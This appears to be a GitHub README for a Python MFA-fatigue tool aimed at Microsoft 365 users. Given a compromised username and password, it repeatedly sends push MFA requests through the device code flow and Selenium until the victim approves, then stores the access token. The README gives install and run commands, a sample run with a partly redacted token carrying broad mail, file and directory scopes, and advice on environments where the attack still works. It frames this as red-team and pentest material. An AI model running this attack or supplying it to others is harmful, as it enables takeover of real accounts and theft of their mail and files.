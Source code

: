 # Microsoft 365 MFA Bombing Script

This Python script automates the authentication process for Microsoft 365 by using the device code flow and Selenium for automated login.
It keeps bombing the user with MFA requests and stores the access_token once the MFA was approved.

It is intended to be used in Social Engineering / Red-Team / Pentesting scenarios when targeting O365/MS-Online users in Azure (now called Entra ID).

In case a username & password combination was compromised it can be used to flood the authenticator app with authentication requests.
Once the second factor has been approved the valid JWT access_token will be stored in decoded and encoded format locally. The token can be reused in other tools like [TokenTactics](https://github.com/f-bader/TokenTacticsV2), [GraphRunner](https://github.com/dafthack/GraphRunner) or manual requesting different endpoints in Azure...

## Applicability
Microsoft used to offer different MFA authentication mechanisms within their authenticator app like:

- Push Notification Approval
- Time-Based One-Time Password (TOTP)
- Phone Sign-in
- Number Matching
- Passwordless Sign-in

As of May 2023 Microsoft mostly disarmed this fatigue bombing attacks by enforcing the number matching mechanism which require the user to manually enter a two digit number which is presented in the browser as part of the login flow. Generally speaking that breaks simple flooding attacks as only the victim is in posession of the matching number. However one could still retreive the information via real-time social engineering.
If you find environments that still rely on classic push notifications, this attack vector should still work fine. Also I leave it to your own creativity to find applicable scenarios ;-)

## Usage

### Installation

1. Clone this repository.

2. Install the required dependencies by running:

   ```bash
   pip install -r requirements.txt
    ```

### Running the Script
To run the script, execute the following command:

```bash

python m365-fatigue.py --user <username> [--password <password>] [--interval <seconds> (default: 60)]
````

Replace <username> with the target Microsoft 365 username. The password can be provided directly after the --password flag, or the script will prompt for it if not supplied.

The --interval flag allows you to set the polling interval in seconds (default is 60 seconds).

### Sample output

```bash
m365-fatigue python3 m365-fatigue.py --user user@domain.com
Enter your password: 
[*] Username: user@domain.com
[*] Password: ********************************
[*] Device code:
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code GKZAQ433Q to authenticate.
Bei Ihrem Konto anmelden
https://login.microsoftonline.com/common/oauth2/deviceauth
https://login.microsoftonline.com/common/oauth2/deviceauth
Base64 encoded JWT access_token:
eyJ0 ... [dedacted] ... dsgHmA
Decoded JWT payload:
{
    "aud": "https://graph.microsoft.com",
    "iss": "https://sts.windows.net/90931373-6ad6-49cb-9d8c-22eebb6968fa/",
    "iat": 1701428346,
    "nbf": 1701428346,
    "exp": 1701433450,
    "acct": 0,
    "acr": "1",
    "aio": " ... [dedacted] ... ",
    "amr": [
        "pwd",
        "mfa"
    ],
    "app_displayname": "Microsoft Office",
    "appid": " ... [dedacted] ... ",
    "appidacr": "0",
    "family_name": " ... [dedacted] ... ",
    "given_name": " ... [dedacted] ... ",
    "idtyp": "user",
    "ipaddr": " ... [dedacted] ... ",
    "name": " ... [dedacted] ... ",
    "oid": " ... [dedacted] ... ",
    "onprem_sid": " ... [dedacted] ... ",
    "platf": "3",
    "puid": " ... [dedacted] ... ",
    "rh": " ... [dedacted] ... ",
    "scp": "AuditLog.Read.All Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read Files.Read.All Files.ReadWrite.All Group.Read.All Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Notes.Create Organization.Read.All People.Read People.Read.All Printer.Read.All PrintJob.ReadWriteBasic SensitiveInfoType.Detect SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read",
    "sub": " ... [dedacted] ... ",
    "tenant_region_scope": "EU",
    "tid": " ... [dedacted] ... ",
    "unique_name": " ... [dedacted] ... ",
    "upn": " ... [dedacted] ... ",
    "uti": " ... [dedacted] ... ",
    "ver": "1.0",
    "wids": [
        " ... [dedacted] ... "
    ],
    "xms_tcdt":  ... [dedacted] ... ,
    "xms_tdbr": "EU"
}
[*] Successful authentication. Access token expires at: 2023-12-01 12:24:10
[*] Storing token...
Stored Base64 encoded access token as 'access_token_user@domain.com_20231201120406.txt'
Stored decoded access token as 'access_token_user@domain.com_20231201120406.json'
Exiting...
```

## TODO
The fireprox implementation is yet not finished and may or may not be implemented in the future...

# Notes
This script utilizes Selenium, which requires a compatible WebDriver (in this case, Chrome WebDriver... but you can change it towards something else if you need to).

# Credits & Acknowledgements
Heavily inspired by the awesome work of Steve Borosh ([@rvrsh3ll](https://github.com/rvrsh3ll)) and Beau Bullock ([@dafthack](https://github.com/dafthack)). Huge kudos to them for all the awesome research and tooling they release.

# License
This project is licensed under the [MIT License](https://chat.openai.com/c/LICENSE).

